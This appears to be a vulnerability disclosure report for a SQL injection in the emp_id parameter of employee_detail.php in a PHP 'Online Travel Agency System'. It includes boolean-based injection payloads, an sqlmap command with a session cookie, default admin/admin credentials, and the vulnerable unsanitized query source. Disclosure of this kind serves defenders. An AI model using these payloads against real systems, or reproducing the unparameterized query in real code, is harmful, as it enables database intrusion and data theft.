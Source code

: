 # [Online Travel Agency System-SQL Injection-employee_detail.php]

## Basic Information

**[Bug Reporter]:**  DililLearngent

**[Application Vendors]:**  https://www.sourcecodester.com/online-travel-agency-system-using-php.html

**[Affected Version]:** Online Travel Agency System V1.0

**[Test Environment]:**  windows10+apache+php7.0

**[Install]:**

1. start **Apache** and **MySQL**.

2. **Extract** the downloaded source code **zip** file.

3. **Copy** the extracted source code folder and **paste** it into the **www directory**.

4. **Create** a **new database** naming **"travel_agency"**.

5. **Import** the provided **SQL** file. The file is known as **"travel_agency.sql"** located inside the extracted source code folder.

6. **Browse** the **Online Travel Agency System** in a **browser**. i.e. **http://localhost/Travel**

   **Admin Access Information:**

   Username: **admin**
   Password: **admin**

## Bug Information

**[Vulnerability type]:** SQL Injection

**[Vulnerability Url]:** `http://10.142.221.111/Travel/admin/employee_detail.php?emp_id=66`    

**[Vulnerability Location]:** Travel/admin/employee_detail.php

**[Vulnerability Test]:**

1. When you enter `66%27%20and%20%271%27=%271` in the `emp_id` parameter, the page displays as follows:

   ![](../../img/20230428153616.png)

   

2. When you enter `66%27%20and%20%271%27=%272` in the `emp_id` parameter, the page displays as follows:

   ![](../../img/20230428153644.png)

3. Testing with sqlmap

   ```
   python sqlmap.py -u "http://10.142.221.111/Travel/admin/employee_detail.php?emp_id=66" --cookie="PHPSESSID=25ljgqv0ko3gcoh9pgvutde2v2" --current-db
   ```

   ![](../../img/20230428154020.png)

**[code analysis]:**

Travel/admin/employee_detail.php

```php
<?php
  $sql="select*from employee where emp_id='$_GET[emp_id]'";
$result=mysqli_query($con,$sql) or die(mysqli_error($con));
while($row=mysqli_fetch_array($result))
{
	$emp_picture=$row['emp_picture']; 
	$emp_id=$row['emp_id'];
	$emp_name=$row['emp_name'];
	$emp_contact=$row['emp_contact'];
	$emp_address=$row['emp_address'];
	$emp_reference=$row['emp_reference'];
	$emp_email=$row['emp_email'];
	$emp_join=$row['emp_join'];
	$emp_close=$row['emp_close'];;
	$inserted_by=$row['inserted_by'];
}
?>
  
<h1 align="center"> ALMOQADAS TRAVEL AGENCY ::: EMPLOYEE</h1>
<form name="form1">
<div align="center" style="border:1px solid #333; width:850px; margin:0 auto;">
<p><img src="<?php echo $emp_picture;?>" alt="" width="111" height="132">



<table width="auto" height="auto" border="1" style="bar.css">
  <tr>
    <td height="41">ID</td>
    <td>NAME</td>
    <td>CONTACT</td>
    <td>ADDRESS</td>
    <td>REFERENCE</td>
    <td>EMAIL</td>
    <td>JOIN DATE</td>
    <td>LEAVING DATE</td>
  </tr>
  <tr>
    <td><?php echo $emp_id;?></td>
    <td><?php echo $emp_name;?></td>
    <td><?php echo $emp_contact;?></td>
    <td><?php echo $emp_address;?></td>
    <td><?php echo $emp_reference;?></td>
    <td><?php echo $emp_email;?></td>
    <td><?php echo $emp_join;?></td>
    <td><?php echo $emp_close;?></td>
   
  </tr>
</table>
</div>
<input type="button" value="print" onclick="window.print() ;" />
</form>
```

The GET parameter `emp_id` is obtained without any filtering and spliced directly into the sql execution statement, and then a different page response exists depending on the result of the execution.
